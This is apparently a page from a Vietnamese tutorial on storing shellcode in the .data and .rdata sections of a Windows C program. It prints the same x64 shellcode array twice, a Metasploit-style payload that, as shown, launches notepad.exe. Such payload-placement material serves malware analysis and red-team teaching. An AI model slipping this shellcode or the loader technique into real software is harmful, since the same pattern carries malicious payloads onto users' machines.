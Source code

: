 ### .data section
Để khai báo shellcode trong .data section, khai báo như 1 biến bình thường
```c
unsigned char payload[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51"
"\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
"\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed"
"\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
"\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49"
"\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a"
"\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
"\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70"
"\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
```
Mở x64dbg, tìm đến .data section sẽ thấy payload được lưu trữ tại đây
![data](images/data.png)

### .rdata section 
Sử dụng thêm ***const*** để tạo biến const, dữ liệu sẽ được lưu trữ tại *r.data*:
```c
const unsigned char payload[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51"
"\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
"\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed"
"\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
"\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49"
"\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a"
"\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
"\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70"
"\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
```